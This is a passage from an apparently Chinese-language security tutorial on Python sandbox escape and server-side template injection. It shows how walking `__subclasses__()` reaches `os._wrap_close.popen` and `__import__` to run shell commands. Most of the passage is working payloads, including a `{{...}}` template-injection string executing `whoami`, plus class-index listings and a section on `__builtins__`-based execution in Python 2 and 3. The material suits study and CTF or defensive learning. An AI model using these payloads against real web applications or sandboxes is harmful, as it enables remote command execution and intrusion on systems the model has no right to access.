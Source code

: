 - `os._wrap_close`类中的`popen`
- 通过上面给的脚本寻找`popen`所在

```
<class 'os._wrap_close'> 139
<class 'os._AddedDllDirectory'> 140

>>> "".__class__.__bases__[0].__subclasses__()[139].__init__.__globals__['popen']('whoami').read()
'desktop-v7cteor\\y4tacker\n'
().__class__.__base__.__subclasses__()[140].__init__.__globals__['popen']('whoami').read()
```

- `__import__`

  ```
  <class '_frozen_importlib._ModuleLock'> 80
  <class '_frozen_importlib._DummyModuleLock'> 81
  <class '_frozen_importlib._ModuleLockManager'> 82
  <class '_frozen_importlib.ModuleSpec'> 83
  {{"".__class__.__bases__[0].__subclasses__()[80].__init__.__globals__.__import__('os').popen('whoami').read()}}
  
  ```

### Python2与Python3通杀

这里介绍python2和python3两个版本通用的方法

- `__builtins__`代码执行

这种方法是比较常用的，因为他两种python版本都适用

首先`__builtins__`是一个包含了大量内置函数的一个模块，我们平时用python的时候之所以可以直接使用一些函数比如`abs`，`max`，就是因为`__builtins__`这类模块在Python启动时为我们导入了，可以使用`dir(__builtins__)`来查看调用方法的列表，然后可以发现`__builtins__`下有`eval`，`__import__`等的函数，因此可以利用此来执行命令。

经过简单Python3测试有比较多的类都含有`__builtins__`，比如常用的还有`email.header._ValueFormatter`等等，这也可能是为什么这种方法比较多人用的原因之一吧

```
<class '_frozen_importlib._ModuleLock'> 80
<class '_frozen_importlib._DummyModuleLock'> 81
<class '_frozen_importlib._ModuleLockManager'> 82
<class '_frozen_importlib.ModuleSpec'> 83
<class '_frozen_importlib_external.FileLoader'> 94
<class '_frozen_importlib_external._NamespacePath'> 95
<class '_frozen_importlib_external._NamespaceLoader'> 96
<class '_frozen_importlib_external.FileFinder'> 98
<class 'zipimport.zipimporter'> 105
<class 'zipimport._ZipImportResourceReader'> 106
<class 'codecs.IncrementalEncoder'> 108
<class 'codecs.IncrementalDecoder'> 109
<class 'codecs.StreamReaderWriter'> 110
<class 'codecs.StreamRecoder'> 111
<class 'os._wrap_close'> 134
<class 'os._AddedDllDirectory'> 135
<class '_sitebuiltins.Quitter'> 136
<class '_sitebuiltins._Printer'> 137
<class 'types.DynamicClassAttribute'> 144
<class 'types._GeneratorWrapper'> 145
<class 'warnings.WarningMessage'> 146
<class 'warnings.catch_warnings'> 147
<class 'reprlib.Repr'> 171
<class 'functools.partialmethod'> 179
<class 'functools.singledispatchmethod'> 180
<class 'functools.cached_property'> 181
<class 'contextlib._GeneratorContextManagerBase'> 183
<class 'contextlib._BaseExitStack'> 184
```
